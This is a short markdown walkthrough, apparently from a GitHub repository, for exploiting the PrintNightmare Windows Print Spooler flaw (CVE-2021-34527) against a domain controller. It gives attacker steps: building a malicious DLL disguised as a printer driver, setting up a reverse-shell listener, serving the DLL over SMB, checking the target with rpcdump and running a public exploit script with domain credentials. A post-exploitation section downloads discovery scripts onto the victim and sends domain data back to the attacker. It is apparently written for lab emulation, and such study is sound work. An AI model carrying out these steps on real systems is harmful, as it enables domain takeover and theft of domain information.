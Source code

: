# PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

##Pre-exploitation

**Attacker**
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
3. Run SMB server service and modify the config file
4. Place the faked printer driver ```reverse.dll``` to the SMB path
5. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running (the vulnerability can't be exploited if the protocol isn't enabled)
   ```console
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
   ```

6. Exploit the PrintNightmare vulnerability to the target machine
   Download the python script: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file
   
```console
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>
```

**Target machine**
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the service 
```Powershell
PS C:\Users\Administrator> get-service spooler
PS C:\Users\Administrator> start-service spooler
```
**e.g. replace ```<username>``` with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discover victim DC machine and domain group info, then send them back to attacker listener. 

```powershell
PS Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat
PS Invoke-WebRequest -Uri path/to/export.bat -o export.bat
```

